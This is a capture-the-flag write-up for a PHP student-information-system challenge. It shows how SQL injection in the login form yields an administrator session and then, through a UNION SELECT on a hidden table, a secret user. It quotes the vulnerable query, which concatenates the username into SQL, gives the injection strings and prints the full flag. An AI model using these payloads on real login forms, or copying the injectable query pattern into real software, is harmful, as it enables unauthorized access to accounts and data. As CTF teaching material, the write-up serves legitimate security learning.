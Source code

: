 # VinUni's Student Information System

VinUni SIS's source code has been recently disclosed in public. It has become a target of a notorious hacker crew, VinUni Hacking Club. You are an intern of this crew, try to exploit the website to become the official member!

Note: The flag is divided into two parts.

Challenge URL: http://ctflag.vhc.asia:12215/

## Techniques

PHP, SQL Injection

## Solution

### Finding the first part

As we refer to the [PHP source code](http://ctflag.vhc.asia:12215/thesis.php?source), we find the following snippet.

```php
<?php if ($_SESSION["username"]=="administrator"){ ?>
    <h1 class="corb-flag"><?php echo $flag; ?></h1>'
<?php } ?> 
```

And how can we obtain the value for `$_SESSION["username"]`?

```php
$query = "SELECT username FROM users WHERE username = '" . $_POST['username'] . "' and password = ?";

// ...

// Bind password param
$query->bind_param("s", $_POST['password']);
$query->execute();
$query->bind_result($user);
$query->fetch();

// Check if a user does exist
if ($user != NULL) {
    session_start();
    $_SESSION['is_logged_in'] = true;
    $_SESSION['username'] = $user;
} else {
    $error = true;
    $error_msg = "<strong>Wrong!</strong> Username/Password is invalid.";
}
```

We can apply a SQL Injection attack to the login query, by setting `username=administrator` and omit the rest by commenting out.

We can supply the below values to the login form (leave the `password` field blank)

![login form 1](login-1.png)

During the event, initially, I used `administrator' or '=` instead, but it yields the same behavior anyway.

The first part of the flag is `VHC2022{m3_c4N_SqLi_`.

![flag 1](flag-1.png)

### Finding the second part

A hint is given in the previous part that we need to find a way to login 'secretly'.

When we apply the same previous technique for the username `secretly, secret, the_secret_user`, etc., it doesn't work. It implies that such usernames do not exist in the `users` table.

Again, look at the PHP source code but the SQL query test comments.

```php
// Test:
// $query = "SELECT _faculty1 FROM the_faculty_table"
// $query = "SELECT _faculty2 FROM the_faculty_table"
// $query = "SELECT the FROM the_faculty_table"
// $query = "SELECT the_menu_user FROM the_canteen_table";
// $query = "SELECT the_ceo_user FROM the_vingroup_table";
//
// $query = "SELECT the_secret_user FROM the_secret_table";
// $query = "SELECT the_guest_user_1 FROM the_guest_table";
// $query = "SELECT the_CFO_user FROM the_cbm_table";
// $query = "SELECT V202145001 FROM the_students_table"
// $query = "SELECT V202000001 FROM the_students_table"
// $query = "SELECT V202000002 FROM the_students_table"
// $query = "SELECT V202000003 FROM the_students_table"
// $query = "SELECT V202000004 FROM the_students_table"
// $query = "SELECT V202000005 FROM the_students_table"
// $query = "SELECT V202000006 FROM the_students_table"
```

There is a `the_secret_user` in the `the_secret_table` table. How can we bring it to the SQL query result?

We can use a UNION query!

```sql
' UNION SELECT the_secret_user FROM the_secret_table #
```

Type this in the `username` field, and voilà!

![flag 2](flag-2.png)

The second part of the flag is `m3_4_r34L_h4ck3r!}`.

## The Flag

`VHC2022{m3_c4N_SqLi_m3_4_r34L_h4ck3r!}`